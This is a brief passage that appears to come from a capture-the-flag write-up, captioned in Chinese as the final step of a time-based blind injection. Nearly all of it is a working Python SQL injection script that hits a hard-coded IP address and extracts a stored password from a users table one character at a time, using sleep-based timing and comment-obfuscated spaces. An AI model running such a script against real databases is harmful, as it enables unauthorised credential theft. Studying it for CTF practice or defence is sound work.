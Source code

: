 ```python
import requests
import datetime
flag = ''
url='http://134.175.92.218:4321/?id=1"'
for i in range(30):
    for k in range(32, 127):
        payload = "and/**/if(ascii(mid((SELECT/**/password/**/FROM/**/users/**/LIMIT/**/6,1),{},1))={},sleep(2),1)%23" .format(i,k)
        time1 = datetime.datetime.now()
        res = requests.get(url + payload)
        time2 = datetime.datetime.now()
        difference = (time2 - time1).seconds
        if difference > 1:
            flag += chr(k)
            print("flag为->" + flag)
```

时间盲注脚本，最后一步

![image-20240316022110932](https://pic.imgdb.cn/item/65f4919f9f345e8d0331e785.png)